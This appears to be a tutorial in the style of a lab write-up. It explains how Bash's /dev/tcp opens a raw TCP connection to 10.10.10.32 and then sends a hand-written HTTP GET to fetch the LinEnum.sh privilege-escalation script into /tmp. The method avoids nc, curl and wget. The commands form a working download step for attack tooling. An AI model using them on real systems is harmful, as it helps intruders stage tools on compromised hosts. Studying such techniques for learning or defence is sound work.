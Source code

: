 ```bash
  exec 3<>/dev/tcp/10.10.10.32/80
```

- `exec` is a Bash utility that can manipulate file descriptors.
- `3<>` opens file descriptor number 3 for reading and writing.
- `/dev/tcp/10.10.10.32/80` is a special Bash feature **(if enabled)** that allows you to open a direct TCP connection to IP `10.10.10.32` on port `80` (HTTP).

In summary, this command opens a TCP network connection to the specified address and port, and associates it with file descriptor 3. You can then read and write data through that descriptor using Bash
as if it were a normal file. This is useful for transferring data or interacting with network services without external tools like `nc`, `curl`, or `wget`.

In Linux, a file descriptor is an integer that uniquely identifies an open connection to a file, socket, pipe, etc., within a process. The standard descriptors are:

- 0: standard input (`stdin`)
- 1: standard output (`stdout`)
- 2: standard error (`stderr`)

You can open more files or connections, and each will receive an additional descriptor (3, 4, 5, ...), up to a limit defined by the operating system (checkable with `ulimit -n`). Descriptors are used
to read, write, or manipulate files and I/O resources from programs and scripts.

### HTTP GET Request

```bash 
  echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3 sends a simple HTTP GET request through file descriptor 3, which was previously opened as a TCP connection to a web server. Specifically:

- `echo -e` allows escape characters like \n (newline) to be interpreted.
- `"GET /LinEnum.sh HTTP/1.1\n\n"` is the HTTP request asking for the /LinEnum.sh file using the HTTP/1.1 protocol.
- `>&3` redirects the command output to file descriptor 3, that is, to the open TCP connection.
  En resumen, este comando envía una petición HTTP GET manualmente a través de una conexión TCP abierta desde Bash

### Print the Response

`cat <&3` reads the response from the TCP connection associated with file descriptor 3 and prints it to standard output (stdout).

```bash
  cat <&3
```

**Save the Response to a File**

To save the response to a file, we can redirect the output of the `cat` command to a file and used sed to remove the HTTP headers response before save the content.

```bash
  cat <&3  | sed '1,/^\r\?$/d' > /tmp/LinEnum.sh
```

